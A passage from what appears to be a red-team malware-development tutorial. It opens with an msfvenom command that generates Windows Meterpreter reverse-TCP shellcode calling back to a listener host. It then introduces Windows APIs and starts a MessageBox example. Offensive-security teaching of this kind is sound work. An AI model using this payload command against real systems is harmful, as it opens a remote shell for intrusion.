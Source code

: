 ```bash
➜  ~ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.100.72 LPORT=443 EXITFUNC=thread -f C

```


## Windows APIs

- Windows APIs play a key role in malware development as they create a standardized interface for the malware `to interact with the Operating System`.
- The `Windows API` is a collection of functions, data structures, and constants provided by the Windows OS. 
- It allows developers to create applications that can interact with the underlying resources.
- The APIs are well documented [here](https://learn.microsoft.com/en-us/docs/) and we will be using it as a reference



---

### MessageBox API

- We will write our first program that uses a Windows API (MessageBox) to display some text. The implementation of the API is well documented as shown:

    ![image](/posts/2023-07-19_red_team02/images/image7.png)
